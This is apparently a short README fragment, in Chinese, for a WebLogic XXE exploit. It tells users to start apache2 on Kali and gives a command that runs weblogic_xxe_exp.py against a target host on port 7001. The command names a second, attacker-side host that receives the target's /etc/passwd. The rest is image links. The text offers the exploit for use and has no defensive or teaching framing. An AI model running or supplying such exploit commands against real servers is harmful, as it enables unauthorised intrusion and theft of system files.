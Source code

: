 #### 由于自己的懒惰需要大家在kali中运行脚本，并且手动启动apache2
```
service apache2 start
python weblogic_xxe_exp.py 192.168.1.113 7001 192.168.1.110 /etc/passwd
```
![](http://kan.027cgb.com/612577/%E7%9F%A5%E9%81%93%E5%88%9B%E5%AE%87/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E6%88%AA%E5%9B%BE/weblogic-1.png)
![](weblogic-1.png)
